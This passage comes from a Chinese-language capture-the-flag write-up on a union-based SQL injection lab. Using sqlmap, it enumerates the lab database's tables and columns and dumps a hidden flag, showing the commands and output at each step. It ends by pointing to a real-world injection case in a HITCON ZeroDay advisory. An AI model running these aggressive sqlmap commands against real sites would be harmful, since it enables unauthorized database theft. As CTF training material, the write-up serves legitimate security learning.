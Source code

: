 檢查`union_base_sqli`中的`table`
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables

-> 
[19:51:32] [INFO] fetching tables for database: 'union_based_sqli'
Database: union_based_sqli
[2 tables]
+--------------+
| h1dd3n_tab13 |
| users        |
+--------------+
```

檢查`h1dd3n_tab13`中的`columns`

```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns

->
[19:53:15] [INFO] fetching columns for table 'h1dd3n_tab13' in database 'union_based_sqli'
Database: union_based_sqli
Table: h1dd3n_tab13
[1 column]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| secret_flag | varchar(100) |
+-------------+--------------+
```

提取出`secret_flag`

```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns -C secret_flag --dump

->
[19:55:06] [WARNING] reflective value(s) found and filtering out
Database: union_based_sqli
Table: h1dd3n_tab13
[1 entry]
+---------------------------------------------------------+
| secret_flag                                             |
+---------------------------------------------------------+
| flag{Un10n_B@s3d_SQL1_25e406a0db22ea899d8ddd72958254fd} |
+---------------------------------------------------------+
```

### Easy Real World
情境源自[HITCON ZeroDay 高雄鳳山統一當鋪資料庫注入漏洞](https://zeroday.hitcon.org/vulnerability/ZD-2019-01191)
